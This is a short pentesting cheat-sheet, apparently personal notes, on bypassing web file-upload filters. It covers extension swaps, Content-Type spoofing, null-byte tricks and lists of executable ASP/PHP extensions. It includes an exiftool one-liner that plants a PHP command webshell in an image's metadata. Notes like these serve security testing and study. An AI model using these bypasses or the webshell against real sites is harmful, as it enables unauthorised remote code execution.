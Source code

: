 ## Basics

- replace .php by php3
- Replace the Content-Type by : Content-Type: image/png
- take a png, add php code inside, rename it as image.php
- add a null byte : cmd.php%00.jpg


## Have to work on

https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf

https://pentestlab.blog/2012/11/29/bypassing-file-upload-restrictions/

https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass

http://www.hackingarticles.in/5-ways-file-upload-vulnerability-exploitation/

https://www.sans.org/reading-room/whitepapers/testing/web-application-file-upload-vulnerabilities-36487

https://www.owasp.org/index.php/Unrestricted_File_Upload

## Inject malicious php into a picture

- https://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html

---

- another one : https://sushant747.gitbooks.io/total-oscp-guide/bypass_image_upload.html

- ```exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' pic.jpg```
- ```mv pic.jpg pic.php.jpg```

## Example : Bypass security filter to upload php instead of other stuff

- If I submit a simple php webshell instead of a picture, it returns “Invalid file”. There is some filtering going on that I’ll need to bypass.

- I’ll find the allowed upload of a PNG in Burp and send it to Repeater. There are three common ways that a website will check for valid file types by comparing them to an allow- or deny-list:

1. File extension
2. Content-Type header
3. Magic bytes

- I’ll start by changing one at a time to see if the site blocks. First, I’ll change the extension to .php. It works.

- If I change the Content-Type header to application/x-php, it blocks it (even with the file name changed back to .png).

- Changing the content doesn’t seem to matter.

- Based on the filter testing, it seems like I can name a file .php and include PHP code, as long as I change the Content-Type header to a valid image.

## Bypass by changing extension :

- ASP:

.aspx
.config
.ashx
.asmx
.aspq
.axd
.cshtm
.cshtml
.rem
.soap
.vbhtm
.vbhtml
.asa
.asp
.cer
.shtml

- PHP:

.php
.php5
.php3
.php2
.shtml
.html
.php.png
(double extension attack)
What we would typically want to achieve is to circumvent the controls restricting the type of content that can be uploaded onto the website and try to upload something interesting like:

ASP / PHP file with a webshell – RCE
HTML file with Javascript code – XSS
EICAR file – test possibility of hosting malware
Protip: Don’t forget to always try the NULL byte injection trick as well, e.g.:

file.jpg%00shell.php
shell.php%00file.jpg
shell.php%00.jpg

https://twitter.com/pwntheweb/status/1288112909520781316
